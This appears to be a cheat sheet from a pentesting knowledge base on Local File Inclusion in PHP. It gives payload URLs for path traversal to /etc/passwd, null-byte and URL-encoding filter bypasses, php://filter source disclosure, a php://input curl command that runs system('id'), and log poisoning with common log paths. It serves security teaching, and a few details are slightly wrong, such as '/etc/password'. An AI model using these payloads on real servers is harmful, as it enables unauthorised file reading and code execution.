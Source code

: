 

<!--- category: lfi --->
<!--- id: intro --->
<!--- title: Local File Inclusion (LFI) --->
<!--- keywords:  --->
## Local File Inclusion (LFI)




<!--- category: lfi --->
<!--- id: LFI --->
<!--- title: LFI --->
<!--- keywords:  --->
## LFI

Many programming languages, such as php, are able to read files and process them to generate dynamic HTML pages.<br/>
This feature can be hijacked by user crafted variable.<br/>
 <br/>
For exemple:<br/>
The URI http://10.10.10.11/index.php?page=login.php is sent to the server.
The server receive the request extract the page field 'login.php' and process this file to generate the HTML login page.
 
Let replace 'login.php' by another file such as '/etc/passwd', that will be processed by php.
```
http://10.10.10.11/index.php?page=/etc/passwd
```
Php commands are enclosed between &lt;?php and ?> tags. When parsing a file without those tags, php simply print the file content.



<!--- category: lfi --->
<!--- id: FLI.. --->
<!--- title: LFI: Access / --->
<!--- keywords:  --->
## LFI: Access /

Apache web server working directory is usually /var/www/html.<br/>
Setting page=/etc/passwd, the server tries to open the file /var/www/html/etc/passwd. <br/>
Let add /../ to the path to reach the upper directory.<br/>

```
/var/www/html/../etc/passwd => /var/www/etc/passwd.
/var/www/html/../../etc/passwd => /var/etc/passwd.
```

We can add as many  ../../../../../ as we want, we can't go upper than /.<br/>
/var/www/html/../../../../../../../ => /, regardless of the number of ../<br/>

```
http://10.10.10.11?page=../../../../../etc/passwd
```

An LFI can read/execute ALL files, the web server account is allowed to read.



<!--- category: lfi --->
<!--- id: LFINull --->
<!--- title: NUll byte --->
<!--- keywords:  --->
## NUll byte

The server extracts 'page' parameter from request http://10.10.10.11/index.php?page=login, and appends an extension such as '.php' before including it.<br/>
<br/>
http://10.10.10.11/index.php?page=/etc/password tries without succes to open /etc/password.php.<br/>
<br/>
On php version older than 5.3.4, adding a null byte at the end of our parameter will mean the end of the string, and leads to ignoring the extension '.php'.<br/>
```
http://10.10.10.11/index.php?page=/etc/password%00
```




<!--- category: lfi --->
<!--- id: LFIURLDoubleEncodage --->
<!--- title: URL double encoding --->
<!--- keywords:  --->
## URL double encoding

```
<   %3C %253C
>   %3E %253E
«   %22 %2522
‘   %27 %2527
/   %2F %252F
.   %2E %252E
=   %3D %253D
–   %2D %252D
:   %3A %253A
```
    


<!--- category: lfi --->
<!--- id: LFIWaf --->
<!--- title: WAF: Web Application Filter --->
<!--- keywords:  --->
## WAF: Web Application Filter

Developers, who are aware of the risks of LFI, sometime add functions that will filter the entries.<br/>
They detect and remove the ../ and the / in the filename<br/>.
This kind of filter is called a Waf: Web Application Filter.<br/>
<br/>
It is possible to bypass these filters in several ways:<br/>
- By providing the sequences of characters that will be filtered out: ..././ once filtered becomes ../<br/>
http://10.10.10.11/index.php?page=..././..././..././..././passwd<br/>
 <br/>
- Using url encoding:<br/>
%2e%2e%2f instead of ../<br/>
%2f instead of /<br/>
http://10.10.10.11/index.php?page=%2e%2e%2f%2e%2e%2f%2e%2e%2fetc%2fpasswd<br/>    
<br/>
- Using a double url encoding:<br/>
../ => %2e%2e%2f => %252e%252e%252f<br/>
http://10.10.10.11/index.php?page=%252e%252e%252f%252e%252e%252fetc%252fpassword<br/>
<br/>

Browsers could interpret the encoded characters or even re-encode them. It is usually better to set the desired URL thanks to a curl command or modify/replay using an HTTP proxy.



<!--- category: lfi --->
<!--- id: LFIphpfilter --->
<!--- title: Php:filter: Get php sources --->
<!--- keywords:  --->
## Php:filter: Get php sources

Php allows to pass files through filters before opening them. It is thus possible to encode a file in base64 before opening it.
````
http://10.10.10.11/index.php?page=php://filter/read=convert.base64-encode/resource=login.php 
http://10.10.10.11/index.php?page=php://filter/convert.base64-encode/resource=login.php 
````
It only remains to decode base64 to get the source code of the file.



<!--- category: lfi --->
<!--- id: LFIphpinput --->
<!--- title: Php:input : Code injection in an HTTP Post --->
<!--- keywords:  --->
## Php:input : Code injection in an HTTP Post

Php allows to read the content of the HTTP request as a file. It is thus possible to read and execute the raw content of the data in POST with php://input.<br/>

curl  -X POST -d 'test=&lt;? system (&quot;id&quot;); ?>' http://pwnlab/?page=php://input<br/>

Only works if the option allow_url_include = On is active in the php config. This option is disabled by default.



<!--- category: lfi --->
<!--- id: FLILog --->
<!--- title: Logs Exploitation --->
<!--- keywords:  --->
## Logs Exploitation

To inject a Php payload in the log file of a server, just send an HTTP GET request containing php code in the url.<br/>
For an ssh or ftp server, inject the payload in login.
Use then an LFI on the log file to trigger the payload.<br/>
<br/>
Usual log files locations:<br/>
Apache<br/>
/var/log/apache/access.log<br/>
/var/log/apache/error.log<br/>
/usr/local/apache/log/error_log<br/>
/usr/local/apache2/log/error_log<br/>
/var/log/httpd/error_log<br/>
<br/>
Nginx<br/>
/var/log/nginx/access.log<br/>
/var/log/nginx/error.log<br/>
<br/>
Ssh<br/>
/var/log/sshd.log<br/>
<br/>
Log files location can be found in webservers config files:<br/>
Nginx: /etc/nginx/nginx.conf<br/>
Look for : access_log /spool/logs/nginx-access.log<br/>

